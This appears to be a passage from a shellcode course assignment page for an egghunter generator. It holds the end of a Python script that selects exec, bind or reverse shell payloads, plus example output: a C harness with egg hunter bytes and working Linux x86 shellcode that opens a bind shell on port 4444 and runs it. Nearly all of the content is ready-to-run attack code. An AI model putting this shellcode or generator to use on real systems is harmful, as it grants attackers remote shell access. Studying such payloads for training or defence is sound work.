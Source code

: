 ```python
		if (options.payload == "exec"):
			execPayload(options.egghunter)
		elif (options.payload == "bind"):
			if (options.port is not None):
				bindPayload(options.egghunter, options.port)
			else:
				print "[-] Bindi shellcode needs a port"
				
		elif (options.payload == "reverse"):
			if (options.port is not None) and (options.address is not None):
				reversePayload(options.egghunter, options.address, options.port)
			else:
				print "[-] Reverse shellcode needs port and address"
		else:
			print "[-] Payload not valid"
	else:
		print "[-] Need egghunter and payload"


if __name__ == "__main__":
	opciones()
```

Example:

```bash
hiro@HackingLab:~/SLAE/SLAE/EXAMEN/GitHub/SLAE/Assignment3$ ./egghunter.py -e 90509050 -p bind -x 4444 
#include<stdio.h>
#include<string.h>
#define EGG "\x90\x50\x90\x50"
unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x90\x50\x90\x50\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";
unsigned char code[] = 
EGG
EGG
"\x31\xc0\x31\xdb\x50\x6a\x01\x6a\x02\x89\xe1\xb3\x01\xb0\x66\xcd\x80\x89\xc6\x31\xc0\x31\xc9\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb0\x66\xb3\x02\xcd\x80\x31\xc0\x50\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x83\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
main(){
printf("Egg hunter Length: %d\n", strlen(egg_hunter));
printf("Shellcode Length: %d\n", strlen(code));
int (*ret)() = (int(*)())code;
ret();
}
```
